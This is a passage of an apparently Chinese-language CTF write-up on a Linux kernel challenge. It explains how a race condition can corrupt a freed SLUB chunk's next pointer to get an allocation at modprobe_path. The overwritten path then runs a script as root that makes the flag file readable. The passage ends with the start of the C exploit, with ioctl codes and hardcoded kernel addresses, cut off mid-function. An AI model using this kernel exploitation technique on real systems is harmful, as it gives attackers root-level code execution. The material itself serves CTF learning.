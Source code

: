 其中``modprobe_path``被定义在data段中，值为``/sbin/modprobe``。而``call_usermodehelper_exec``函数会<font color=red>**以root权限**</font>执行这个程序。由于data段可写，因此如果能够将``modprobe_path``的值改写，就可以执行任意shell脚本了。

那么应该如何修改``modprobe_path``呢？这里就需要用到我们对于slub内核内存分配系统的理解了。在前面笔者并没有对linux内核的内存分配系统作详尽的解释，可以参考下面的资料进行了解，后面笔者也会进行进一步的学习和分析：

[页框分配器](https://www.cnblogs.com/tolimit/p/4551428.html)
[SLAB概述](https://www.cnblogs.com/tolimit/p/4566189.html)
[SLUB概述](https://blog.csdn.net/wh8_2011/article/details/52287557?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166522587916800182720892%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=166522587916800182720892&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~baidu_landing_v2~default-4-52287557-null-null.142^v52^js_top,201^v3^control_1&utm_term=slub&spm=1018.2226.3001.4187)

在本题中，我们只需要清楚SLUB分配器的一个特性：<font color=red>**SLUB分配器中有多个内存块（笔者称作cache），在一个被释放的cache的最前面保存的是下一个可用的cache地址**</font>，也就是说，如果我们能够利用条件竞争漏洞去修改一个已经被释放的cache的最前8个字节，那么下一次分配能够分配到该chunk的话，再下一次就能够分配到任一地址去。也正是利用这个特性，我们可以将``modprobe_path``的地址写到被释放的cache中，然后再进行两次分配即可分配到``modprobe_path``处的地址，并通过``edit``函数随意进行改写。有关于Linux内核内存分配机制，笔者将会在下一篇文章中进行详细介绍，这里我们只需要知道上面这一点就可以了。同时还需要注意的是，在分配到``modprobe_path``之后，由于我们已经破坏了SLUB的结构，因此如果直接结束进程，会导致``kernel panic``，本题中我们只需要在``modprobe_path``利用之前编写一个脚本将flag文件的权限改成777，后利用条件竞争漏洞将``modprobe_path``修改为这个脚本的路径，然后执行一个非法文件触发``modprobe_path``漏洞，以root权限执行这个脚本，后面我们就能够直接通过``read``读取flag文件的内容了。因此**本题的利用方式并不是提权**。

如此一来，思路就清晰了，exp自然就信手拈来了。

```c
//
// Created by ubuntu on 22-10-5.
//
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include "kernel.h"

typedef struct input{
    union{
        size_t size;
        size_t index;
    }info;
    char* buf;
}input;

#define GET 0x2333
#define ADD 0x1337
#define EDIT 0x8888
#define DEL 0x6666
#define TTY_STRUCT_SIZE 0x2E0

#define DO_SAK_WORK_ADDR 0xFFFFFFFF815D4EF0
#define COMMIT_CREDS 0xFFFFFFFF810B3040
#define PREPARE_KERNEL_CRED 0xFFFFFFFF810B3390
#define MODPROBE_PATH 0xFFFFFFFF8245C5C0

int fd;
static char* faultBuffer;

void get(int index, char* buffer){
    input in = {
            .info.index = index,
            .buf = buffer,
    };
    ioctl(fd, GET, &in);
}

void add(int size){
```